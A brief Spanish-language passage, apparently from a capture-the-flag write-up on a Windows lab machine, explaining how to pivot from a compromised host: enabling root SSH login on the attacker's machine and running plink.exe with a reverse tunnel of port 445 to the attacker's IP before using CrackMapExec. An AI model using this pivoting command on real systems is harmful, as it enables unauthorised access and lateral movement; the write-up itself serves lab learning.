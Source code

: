 #### port fowarding

hay que configurar el sshd_config en /etc/ssh/sshd_config hay que configurar un apartado en especifico que se llama permitRootLogin

quedaria de la siguiente manera:

![](/TheusZero/images/post/WindowsMachines/Granny/5.png)

ahora, esto se ejecuta como admin o sudo

> en mi maquina abro un server ssh con ```service ssh start```

en la maquina windows con plink genero el pivoting con el siguiente comando:

```Python
plink.exe -l root -pw contrasena -R 445:127.0.0.1:445 MYIP
```

cuando ya este listo el pivoting, usaremos crackMapExec

> 


